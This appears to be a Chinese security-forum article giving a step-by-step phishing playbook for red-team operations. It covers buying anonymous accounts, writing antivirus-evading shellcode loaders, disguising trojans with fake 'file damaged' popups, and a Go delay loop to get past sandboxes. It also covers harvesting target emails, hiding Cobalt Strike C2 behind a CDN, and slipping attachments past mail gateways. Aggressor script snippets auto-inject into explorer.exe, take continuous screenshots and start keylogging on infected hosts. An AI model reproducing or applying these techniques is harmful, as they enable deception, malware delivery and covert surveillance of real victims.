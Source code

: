 

# 社工钓鱼基本流程 - 先知社区

社工钓鱼基本流程

* * *

## 前言

穷则社工钓鱼，达则0day炸场-微步在线，借用微步公众号的一句话，没有后端资源支持的情况下，社工钓鱼必学技能，毕竟正面打不动，代码审不动，0day又没有是日常，下文讲解自己对于社工钓鱼的思路。

## 社交账号

准备一些社交账号，如微信、QQ、脉脉、BOSS直聘、猎聘，手机号可以购买阿里小号/和多号。其中微信可以用辅助注册或者阿里小号/和多号注册，如果你有匿名的渠道购买更好。  
[![](assets/1701606989-0667100d9daf51fc3d506a1668642d83.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230922220656-4a0b5402-5951-1.png)  
[![](assets/1701606989-36e1789ed8dc4b7c630fb755452a6415.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230922220746-6793a75e-5951-1.png)

邮箱方面，一般常用QQ邮箱、163邮箱，这些目前还是有渠道可以购买的，没钱或者担心购买不可靠，跟身边亲朋好友借也行。  
[![](assets/1701606989-83af0284c0ecb541cb33a92acfc587df.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230922221336-38ac2708-5952-1.png)

## 免杀马

免杀的马子是必备的，如果你是和我一样的免杀弟弟，我推荐先学习shellcode loader的一些编写思路  
[ShellcodeLoader](https://github.com/xf555er/ShellcodeLoader)  
[![](assets/1701606989-bbb05a5f8c450b8a04134ab09bbe4294.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230922221908-fe227f14-5952-1.png)  
基本加载器思路为shellcode申请内存(可读可写) -> 载入内存 -> 执行内存

*   申请内存：VirtualAlloc
*   载入内存：memcpy
*   执行内存：CreateThread WaitForSingleObject  
    针对这三个过程可以使用不同的函数来达到规避杀软的效果，例如申请内存还可以用GlobalAlloc、CoTaskMemAlloc函数，执行内存可以用回调函数EnumFontsW、EnumUILanguages、EnumFontFamiliesA。  
    [![](assets/1701606989-1c29c2fa8657c0007553a1640aa69485.gif)](https://xzfile.aliyuncs.com/media/upload/picture/20230922222934-73c8c0d8-5954-1.gif)

主要还是查文档自己多动手，学完就算不会写免杀马，改改别人GitHub的马子，过国内360火绒基本没问题，然后就是研究下捆绑exe释放正常文件，搞不懂直接给马子弹个框文件已损坏，无法打开也行，不然经常出现对方问你这文件怎么打不开...  
[![](assets/1701606989-86b69fe67ed300b319c9c6babdbc7520.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230923083914-9ef6c0c0-59a9-1.png)

平时钓鱼的马子经常要改图标加签名之类的，推荐如下项目，在原项目[360QVM\_bypass](https://github.com/Pizz33/360QVM_bypass)的基础上，进行修改增加签名功能。[360QVM\_bypass-public](https://github.com/S9MF/my_script_tools/blob/main/360QVM_bypass-public/README.md)  
[![](assets/1701606989-9fab0ef0ccc550beda0c2171d78cc9a9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230922223436-27686bb6-5955-1.png)

## bypass沙箱

为了延长马子存活时间，基本的沙箱对抗少不了，毕竟有防守人员的话，你投递的木马基本都得沙箱走一走，以微步沙箱为例，最简单的循环打印。

使用sleep函数延迟执行容易被hook，修改为0，可以编写循环打印来延迟程序时间，来绕过沙箱检测，因为沙箱运行程序是有时间限制的。

```plain
//循环打印进行延时 运行1m2s后执行shellcode 沙箱分析时间没那么久 可以绕过沙箱检测
func add() {
    start := time.Now() //获取当前时间
    //1000000  1m2.793228s
    sum, i := 0, 1
    for i < 1000000 {
        fmt.Println(i)
        sum += i
        i++
    }
    elapsed := time.Since(start)
    fmt.Println("该函数执行完成耗时：", elapsed)
}
```

将如上代码放在shellcode执行前就行。  
[![](assets/1701606989-30c567d3a6cd15f66850b9ae59b807ec.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230923090122-b6a451e4-59ac-1.png)

## 信息收集

思维导图如下，每个人都有自己的思路，我就简单讲解几个。  
[![](assets/1701606989-1b763355e02371aa2612ee425f179b5b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230922223658-7bfbe9f0-5955-1.png)  
零零信安直接搜索公司名称，得到一些邮箱地址  
[![](assets/1701606989-7a27619af719003396eab64ab915e7f5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230922224813-0eb75b20-5957-1.png)

拿邮箱后缀+关键字去微信搜一搜，Google、百度等搜索引擎也可以搜，可以获取业务招聘相关邮箱信息、手机号等。  
如下组合：  
@xxx.com 招聘 @xxx.com 校招 @xxx.com 投标 @xxx.com 联系方式  
[![](assets/1701606989-d35f45893e1ce06e0b2761b21afae66f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230922225408-e1d1b2f8-5957-1.png)

## C2搭建准备

常用的就cs，基本的套层CDN然后c2上线端口反代下，这里我会用到cs插件脚本  
[PushPlus2](https://github.com/S9MF/my_script_tools/blob/main/CS%E6%8F%92%E4%BB%B6/README.md)  
[![](assets/1701606989-ca5f9ca4417a8f4f45dd53bc03bb815f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230923082747-05ae0528-59a8-1.png)  
常用的就是上线提醒、自动迁移进程

```plain
#自动迁移进程
    sub callback{
        $regex = '(.*\n)+explorer.exe\t\d+\t(\d+)(.*\n)+';
        # 要迁移的进程
        $listener = "ecloud";
        # 监听器名字，此处为ecloud，记得修改为自己的
        if ($2 ismatch $regex){
            $pid = matched()[1];
            $inject_pid = $pid;
            if (-is64 $1){
                $arch = "x64";
            }
            else{
                $arch = "x86";
            }
            binject($1, $pid, $listener, $arch);
        }
    }
    if($inject_pid != beacon_info($1,"pid")){
        bps($1, &callback);
    }
```

还有上线自动截图功能，就算目标掉了起码还有张图证明上线过

```plain
#只截一张图
    #binput($1, "screenshot");
    #bscreenshot($1);

    #连续截图
    binput($1, "screenwatch");
    bscreenwatch($1);
```

其他的上线自动执行shell命令、键盘记录看自己需求吧

```plain
#执行自定义cmd命令
    bshell($1, "ipconfig /all");
    #键盘记录
    bkeylogger($1);
```

还有其他需求可以去翻翻文档[Aggressor Script](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/agressor_script.htm)

如果你有好用稳定的权限提升维持工具、如Bypass UAC、以及计划任务、服务，可以考虑下写个cs脚本上线自动bypass uac，加权限维持。

## 邮件网关/沙箱

默认对面有邮件网关/沙箱设备，针对邮件正文和附件要有一定处理或者技巧。

*   针对正文  
    不带知名公司名称如脉脉、BOSS直聘不然容易被当成广告邮件，不把附件解密密码放在正文，容易被沙箱识别密码分析附件。
*   针对附件  
    文件名加密，解压密码写在附件名上。

## 开钓

通过之前的准备，我们已经有了一些可供尝试的信息，此时需要构建话术剧本然后去钓鱼。  
[![](assets/1701606989-b4a47a6f99db2a350512de5ff6dca110.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230923151306-a473b102-59e0-1.png)  
[![](assets/1701606989-7333c44d93676c58cf6f0d8a4f3fd97c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230923151227-8d9e1a26-59e0-1.png)

## 上线后的操作

参考L33h0m师傅的文章[分享我的CS钓鱼流程导图（权限维持+信息收集+后渗透阶段）](https://www.t00ls.com/articles-69037.html)  
[![](assets/1701606989-929edb01d470e4c7cd2ca29c1a0209df.gif)](https://xzfile.aliyuncs.com/media/upload/picture/20230923151510-eed5bdd0-59e0-1.gif)

## 总结

本文讲解了我对社工钓鱼的基本流程，偏向于思路，师傅们有其他思路欢迎在评论区留言，学习交流。

## 参考

[360QVM\_bypass](https://github.com/Pizz33/360QVM_bypass)  
[ShellcodeLoader](https://github.com/xf555er/ShellcodeLoader)  
[分享我的CS钓鱼流程导图（权限维持+信息收集+后渗透阶段）](https://www.t00ls.com/articles-69037.html)
